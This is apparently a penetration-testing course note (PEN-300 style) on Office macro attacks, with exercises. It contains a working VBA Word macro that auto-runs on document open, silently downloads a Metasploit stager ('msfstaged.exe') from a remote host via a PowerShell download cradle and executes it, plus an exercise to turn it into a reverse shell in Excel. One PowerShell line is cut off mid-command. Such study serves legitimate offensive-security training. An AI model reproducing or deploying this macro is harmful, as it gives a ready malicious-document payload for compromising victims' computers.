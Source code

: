 
Powershell is rendered on th efly using .NET framework

using powershell to do a download and execute script

`PS C:\Users\aonno> (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', `

using a word macro to execute powershell script

```vb
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object 
System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 
'msfstaged.exe')"
 Shell str, vbHide
 Dim exePath As String
 exePath = ActiveDocument.Path + "\msfstaged.exe"
 Wait (2)
 Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
 Dim t As Date
 t = Now
 Do
 DoEvents
 Loop Until Now >= DateAdd("s", n, t)
End Sub
Listing 3
```

### .2.3.1 Exercises
1. Replicate the Word macro to obtain a reverse shell. Implement it in Excel.

2. Experiment with another PowerShell download cradle like Invoke-WebRequest.

```bash
PS C:\Users\aonno> Invoke-WebRequest "https://raw.githubusercontent.com/fanbyprinciple/pen300/master/README.md"


StatusCode        : 200
StatusDescription : OK
Content           : # pen300
                    
                    Repository for doing pen300 exercises.
                    Need to start with book.
                    
                    Will add multiple folders for various blogs/ resources.
                    
RawContent        : HTTP/1.1 200 OK
                    Connection: keep-alive
                    Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
                    Strict-Transport-Security: max-age=31536000
                    X-Content-Type-Options: nosniff
                    ...
Forms             : {}
Headers           : {[Connection, keep-alive], [Content-Security-Policy, default-src 'none'; style-src 'unsafe-inline'; sandbox], 
```